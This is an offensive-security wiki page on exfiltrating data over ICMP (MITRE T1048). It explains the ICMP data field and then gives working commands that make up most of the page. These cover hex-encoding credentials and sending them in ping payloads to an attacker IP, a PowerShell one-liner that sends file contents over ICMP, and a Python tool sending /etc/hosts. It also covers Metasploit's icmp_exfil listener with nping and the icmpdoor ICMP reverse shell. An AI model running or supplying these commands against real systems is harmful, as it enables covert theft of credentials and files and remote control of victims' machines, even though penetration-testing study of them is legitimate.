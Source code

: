 ```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - Technique T1048
---
```


# Exfiltration over ICMP

## Theory

The **Internet Control Message Protocol** (ICMP) is a supporting protocol in the Internet protocol suite. It is used by network devices, including routers, to send error messages and operational information indicating success or failure when communicating with another IP address ([Wikipedia](https://en.wikipedia.org/wiki/Internet_Control_Message_Protocol)).

### ICMP Data Section

At a high level, an ICMP packet consists of multiple fields, including a **Data** section. This section can contain arbitrary information, such as diagnostic messages, test payloads, or even copied portions of other network packets (e.g., IPv4 headers for error reporting). The following diagram illustrates the **Data** section, which is **optional** but can be leveraged for various purposes, including covert communication.

{% hint style="info" %}
Notably, **RFC 792** (which defines ICMP) does not impose any strict requirements on the content of the Data field. This means that **any data can be transmitted**, as long as the overall structure of the ICMP packet remains valid.
{% endhint %}

<div align="center"><figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure></div>

## Practice

{% tabs %}
{% tab title="Manualy" %}
## Linux Target

We can, on linux targets, exfiltrate datas with the `-p` options of the `ping` command.

```bash
root@victime$ echo 'root:p@ssw0rd!' | xxd -p
726f6f743a7040737377307264210a

root@victime$ ping <ATTACKING_IP> -c 1 -p 726f6f743a7040737377307264210a
```

On the attacking machine, we can receive the data as follows

```bash
# Listen for ping and save to pass.pcap
v4resk@kali$ sudo tcpdump icmp -i <INTERFACE> -w pass.pcap

# Extract data field and Hex decode
v4resk@kali$  tshark -r pass.pcap -Y "icmp" -T fields -e data | xxd -r -p
```

{% hint style="danger" %}
Note that the -p option is only available for **Linux operating systems**. We can confirm that by checking the ping's help manual page.
{% endhint %}

To facilitate file exfiltration and remove the limit of 16 bytes in the data field using the native ping command, you can alternatively employ [ICMP-Data-Exfiltration](https://github.com/Gurpreet06/ICMP-Data-Exfiltration) (python).&#x20;

```bash
# On target
python3 icmp_exfiltration.py -i 127.0.0.1 -m send -f /etc/hosts

# On attacking machine
python3 icmp_exfiltration.py -i wlan0 -m recv -f mydata
```

## Windows Victime

On a Windows victime, we may exfiltrate data over ICMP using poweshell

```powershell
$ping = New-Object System.Net.Networkinformation.ping; foreach($Data in Get-Content -Path <input_file> -Encoding Byte -ReadCount 1024) { $ping.Send("<ip_address>", 1500, $Data) }
```

On the attacking machine, we can receive the data as follows

```bash
v4resk@kali$ sudo tcpdump icmp -i <INTERFACE> -w pass.pcap
v4resk@kali$ tshark -r pass.pcap -Y "icmp" -T fields -e data | xxd -r -p
```
{% endtab %}

{% tab title="metasploit" %}
let's set up the Metasploit framework by selecting the `icmp_exfil` module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the `BPF_FILTER` option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows.

```bash
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKING_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP

msf5 auxiliary(server/icmp_exfil) > run
```

On the target, we can now exfiltrate data.

```bash
#First, send the BOF trigger
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "BOFfile.txt"

#Datas
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "admin:password"

#EOF end signal
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "EOF"
```
{% endtab %}

{% tab title="icmpdoor" %}
[ICMPDoor](https://github.com/krabelize/icmpdoor) is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.

On the victime machine:

```bash
victime@target$ sudo icmpdoor -i eth0 -d ATTACKING_IP
```

On the attacking machine:

```bash
veresk@kali$ sudo icmp-cnc -i eth1 -d VICTIME_IP
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://blog.bwlryq.net/posts/icmp_exfiltration/" %}

{% embed url="https://tryhackme.com/room/dataxexfilt/" %}

{% embed url="https://www.atomicredteam.io/atomic-red-team/atomics/T1048.003" %}
